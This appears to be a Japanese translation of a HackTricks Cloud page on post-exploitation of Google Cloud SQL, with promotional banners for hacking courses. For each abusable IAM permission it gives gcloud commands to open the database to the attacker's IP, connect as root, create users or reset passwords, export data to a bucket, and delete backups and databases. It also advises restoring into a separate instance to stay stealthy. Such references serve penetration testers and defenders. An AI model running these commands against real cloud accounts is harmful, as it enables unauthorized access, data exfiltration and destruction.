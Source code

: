 # GCP - Cloud SQL ポストエクスプロイテーション

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}

## Cloud SQL

Cloud SQLに関する詳細情報は以下を確認してください：

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

データベースに接続するには、**データベースポートへのアクセス**と**ユーザー名**、**パスワード**を知っているだけで、IAMの要件はありません。したがって、データベースにパブリックIPアドレスがあると仮定すると、アクセスを得る簡単な方法は、許可されたネットワークを更新し、**自分のIPアドレスをアクセスできるようにすること**です。
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
**`--no-backup`**を使用して、データベースの**バックアップを中断**することも可能です。

これらが要件であるため、**`cloudsql.instances.connect`**と**`cloudsql.instances.login`**の権限が何であるかは完全にはわかりません。知っている方はPRを送ってください！

### `cloudsql.users.list`

データベースの**すべてのユーザーのリスト**を取得します：
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

この権限は**データベース内に新しいユーザーを作成する**ことを許可します：
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

この権限は**データベース内のユーザーを更新する**ことを許可します。例えば、パスワードを変更することができます：

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

バックアップには**古い機密情報**が含まれている可能性があるため、確認することが興味深いです。\
データベース内で**バックアップを復元**します：
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
よりステルスな方法で行うには、現在稼働中のデータベースではなく、新しいSQLインスタンスを作成し、そこでデータを復元することをお勧めします。

### `cloudsql.backupRuns.delete`

この権限はバックアップを削除することを許可します：
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**データベースをエクスポート**してCloud Storageバケットに保存し、そこからアクセスできるようにします:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Cloud Storage バケットからデータベースをインポート**（上書き）:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

データベースインスタンスからデータベースを削除します:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
